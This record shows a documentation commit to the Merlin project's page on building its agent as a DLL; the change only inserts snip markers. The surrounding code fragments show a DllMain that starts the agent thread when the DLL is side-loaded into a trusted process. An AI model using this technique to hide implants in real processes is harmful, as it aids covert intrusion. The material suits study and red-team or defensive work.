

Before and after one commit to Ne0nd0g/merlin, a Sphinx documentation site: the page built from docs/agent/dll.rst, in a window 1280 px wide and 1400 px high, scrolled down 1781 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update dll.rst

```diff
--- a/docs/agent/dll.rst
+++ b/docs/agent/dll.rst
@@ -73,6 +73,8 @@
 
 .. code-block:: go
 
+    ...[SNIP]...
+
     // EXPORTED FUNCTIONS
 
     // MagicMan is a test function
@@ -82,11 +84,15 @@
         run(url)
     }
 
+    ...[SNIP]...
+
 Note that the name of the exported function must match in the comment block and the code itself or Go will complain during compilation.
 
 Now, in the ``merlin.c`` source code, add a new function that executes the exported function from ``main.go``:
 
 .. code-block:: c
+
+    ...[SNIP]...
 
     DWORD WINAPI RunMagicMan(LPVOID LpParam){
         //MessageBoxA( NULL, "Hello from MagicMan() in Merlin", "DLL Load", MB_OK );
@@ -94,9 +100,13 @@
         return TRUE;
     }
 
+    ...[SNIP]...
+
 Next, edit the structure of ``DllMain`` entry point. We want to create a thread that will execute the Merlin agent function when the DLL is side-loaded into the process:
 
 .. code-block:: c
+
+    ...[SNIP]...
 
     BOOL WINAPI DllMain(
         HINSTANCE hinstDLL,  // handle to DLL module
@@ -110,6 +120,8 @@
                 //MessageBoxA( NULL, "Hello from DllMain-PROCESS_ATTACH in Merlin!", "DLL Load", MB_OK );
                 CreateThread(NULL, 0, RunMagicMan, NULL, 0, 0);
                 break;
+
+    ...[SNIP]...
 
 Now, when the Merlin DLL Agent is loaded by a trusted process, the DLL entry point will run the CreateThread function and execute the agent.
 
```
